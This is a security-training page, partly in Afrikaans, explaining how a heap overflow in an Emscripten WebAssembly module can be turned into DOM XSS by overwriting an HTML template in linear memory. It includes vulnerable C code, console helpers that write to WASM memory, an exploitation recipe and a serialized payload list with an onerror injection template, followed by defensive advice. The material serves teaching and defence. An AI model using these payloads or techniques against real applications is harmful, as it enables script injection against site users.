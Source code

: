 # WebAssembly linear memory corruption to DOM XSS (template overwrite)

{{#include ../../banners/hacktricks-training.md}}

Hierdie tegniek wys hoe 'n geheue-korrupsie-bug binne 'n WebAssembly (WASM) module wat met Emscripten saamgestel is, benut kan word tot 'n betroubare DOM XSS selfs wanneer insette gesaneer is. Die skuif is om skryfbare konstantes in WASM linear memory (bv. HTML format templates) te korrupteer in plaas daarvan om die gesaneerde bronteksstring aan te val.

Sleutelidee: In die WebAssembly-model woon kode in nie-skatbare uitvoerbare bladsye, maar die module se data (heap/stack/globals/"constants") woon in 'n enkele plat linear memory (bladsye van 64KB) wat deur die module geskryf kan word. As foutiewe C/C++ kode buite-grense skryf, kan jy aangrensende objekte en selfs konstante stringe wat in linear memory ingebed is, oorskryf. Wanneer so 'n konstante later gebruik word om HTML te bou vir invoeging via 'n DOM sink, kan jy gesaniteerde insette in uitvoerbare JavaScript omskakel.

Dreigmodel en voorvereistes
- Web app uses Emscripten glue (Module.cwrap) to call into a WASM module.
- Application state lives in WASM linear memory (e.g., C structs with pointers/lengths to user buffers).
- Input sanitizer encodes metacharacters before storage, but later rendering builds HTML using a format string stored in WASM linear memory.
- There is a linear-memory corruption primitive (e.g., heap overflow, UAF, or unchecked memcpy).

Minimal vulnerable data model (example)
```c
typedef struct msg {
char *msg_data;       // pointer to message bytes
size_t msg_data_len;  // length after sanitization
int msg_time;         // timestamp
int msg_status;       // flags
} msg;

typedef struct stuff {
msg *mess;            // dynamic array of msg
size_t size;          // used
size_t capacity;      // allocated
} stuff; // global chat state in linear memory
```
Kwetsbare logika‑patroon
- addMsg(): allocates a new buffer sized to the sanitized input and appends a msg to s.mess, doubling capacity with realloc when needed.
- editMsg(): re‑sanitiseer en memcpy die nuwe bytes in die bestaande buffer sonder om te verseker dat die nuwe lengte ≤ ou toewysing → intra‑linear‑memory heap overflow.
- populateMsgHTML(): formateer die gesaniteerde teks met 'n ingeslote stub soos "<article><p>%.*s</p></article>" wat in linear memory woon. Die teruggegewe HTML beland in 'n DOM sink (bv. innerHTML).

Allocator grooming with realloc()
```c
int add_msg_to_stuff(stuff *s, msg new_msg) {
if (s->size >= s->capacity) {
s->capacity *= 2;
s->mess = (msg *)realloc(s->mess, s->capacity * sizeof(msg));
if (s->mess == NULL) exit(1);
}
s->mess[s->size++] = new_msg;
return s->size - 1;
}
```
- Stuur genoeg boodskappe om die aanvanklike kapasiteit te oorskry. Na groei plaas realloc() dikwels s->mess onmiddellik ná die laaste user buffer in linear memory.
- Overflow the last message via editMsg() to clobber fields inside s->mess (e.g., overwrite msg_data pointers) → arbitrary pointer rewrite within linear memory for data later rendered.

Exploit pivot: overwrite the HTML template (sink) instead of the sanitized source
- Sanitization beskerm input, nie sinks nie. Vind die format stub wat deur populateMsgHTML() gebruik word, e.g.:
- "<article><p>%.*s</p></article>" → change to "<img src=1      onerror=%.*s>"
- Lokaliseer die stub deterministies deur linear memory te scan; dit is 'n plain byte string binne Module.HEAPU8.
- Nadat jy die stub overwrite, word sanitized message content die JavaScript handler vir onerror, so deur 'n nuwe message by te voeg met teks soos alert(1337) kry jy <img src=1 onerror=alert(1337)> wat onmiddellik in die DOM uitgevoer word.

Chrome DevTools workflow (Emscripten glue)
- Break on the first Module.cwrap call in the JS glue and step into the wasm call site to capture pointer arguments (numeric offsets into linear memory).
- Gebruik typed views soos Module.HEAPU8 om WASM memory vanaf die console te lees/skryf.
- Hulpsnippets:
```javascript
function writeBytes(ptr, byteArray){
if(!Array.isArray(byteArray)) throw new Error("byteArray must be an array of numbers");
for(let i=0;i<byteArray.length;i++){
const byte = byteArray[i];
if(typeof byte!=="number"||byte<0||byte>255) throw new Error(`Invalid byte at index ${i}: ${byte}`);
HEAPU8[ptr+i]=byte;
}
}
function readBytes(ptr,len){ return Array.from(HEAPU8.subarray(ptr,ptr+len)); }
function readBytesAsChars(ptr,len){
const bytes=HEAPU8.subarray(ptr,ptr+len);
return Array.from(bytes).map(b=>(b>=32&&b<=126)?String.fromCharCode(b):'.').join('');
}
function searchWasmMemory(str){
const mem=Module.HEAPU8, pat=new TextEncoder().encode(str);
for(let i=0;i<mem.length-pat.length;i++){
let ok=true; for(let j=0;j<pat.length;j++){ if(mem[i+j]!==pat[j]){ ok=false; break; } }
if(ok) console.log(`Found "${str}" at memory address:`, i);
}
console.log(`"${str}" not found in memory`);
return -1;
}
const a = bytes => bytes.reduce((acc, b, i) => acc + (b << (8*i)), 0); // little-endian bytes -> int
```
End-to-end exploitation recipe
1) Groom: voeg N klein boodskappe by om realloc() te aktiveer. Verseker dat s->mess langs 'n gebruikersbuffer lê.
2) Overflow: roep editMsg() op die laaste boodskap aan met 'n langer payload om 'n inskrywing in s->mess oor te skryf, en stel msg_data van message 0 in om na (stub_addr + 1) te wys. Die +1 slaan die voorste '<' oor om tag-belyning tydens die volgende edit ongeskaad te laat.
3) Template rewrite: wysig message 0 sodat sy bytes die template oor skryf met: "img src=1      onerror=%.*s ".
4) Trigger XSS: voeg 'n nuwe boodskap by waarvan die gesaniteerde inhoud JavaScript is, byv. alert(1337). Rendering stuur <img src=1 onerror=alert(1337)> uit en voer dit uit.

Example action list to serialize and place in ?s= (Base64-encode with btoa before use)
```json
[
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"add","content":"hi","time":1756840476392},
{"action":"edit","msgId":10,"content":"aaaaaaaaaaaaaaaa.\u0000\u0001\u0000\u0050","time":1756885686080},
{"action":"edit","msgId":0,"content":"img src=1      onerror=%.*s ","time":1756885686080},
{"action":"add","content":"alert(1337)","time":1756840476392}
]
```
Waarom hierdie omseiling werk
- WASM verhoed kode-uitvoering vanaf lineêre geheue, maar konstante data binne die lineêre geheue is skryfbaar as programlogika foutief is.
- Die sanitizer beskerm slegs die bronstreng; deur die sink (die HTML template) te korrupteer, word die gesaniteerde invoer die JS handler-waarde en voer uit wanneer dit in die DOM ingesit word.
- realloc()-driven nabyskheid plus ongekontroleerde memcpy in edit flows maak pointerkorruptie moontlik om skrywings te herlei na deur die aanvaller gekose adresse binne die lineêre geheue.

Generalisering en ander aanvaloppervlak
- Enige in-geheue HTML template, JSON skeleton, of URL pattern ingebed in die lineêre geheue kan geteiken word om te verander hoe gesaniteerde data later geïnterpreteer word.
- Ander algemene WASM-valstrikke: out-of-bounds writes/reads in lineêre geheue, UAF op heap objects, function-table misuse met ongekontroleerde indirect call indices, en JS↔WASM glue mismatches.

Verdedigingsriglyne
- In edit-paadjies, verifieer nuwe lengte ≤ kapasiteit; verander buffer-grootte voor kopieer (realloc na new_len) of gebruik grootte-beperkte APIs (snprintf/strlcpy) en hou kapasiteit by.
- Hou onveranderlike templates buite die skryfbare lineêre geheue of voer 'n integriteitskontrole op hulle uit voor gebruik.
- Behandel JS↔WASM-grense as onbetroubaar: valideer pointer-bereike/lengtes, fuzz geëksporteerde interfaces, en beperk geheuegroei.
- Sanitize by die sink: vermy om HTML in WASM te bou; verkies veilige DOM APIs bo innerHTML-style templating.
- Vermy om op URL-embedded state te vertrou vir privileged flows.

## References
- [Pwning WebAssembly: Bypassing XSS Filters in the WASM Sandbox](https://zoozoo-sec.github.io/blogs/PwningWasm-BreakingXssFilters/)
- [V8: Wasm Compilation Pipeline](https://v8.dev/docs/wasm-compilation-pipeline)
- [V8: Liftoff (baseline compiler)](https://v8.dev/blog/liftoff)
- [Debugging WebAssembly in Chrome DevTools (YouTube)](https://www.youtube.com/watch?v=BTLLPnW4t5s&t)
- [SSD: Intro to Chrome exploitation (WASM edition)](https://ssd-disclosure.com/an-introduction-to-chrome-exploitation-webassembly-edition/)

{{#include ../../banners/hacktricks-training.md}}
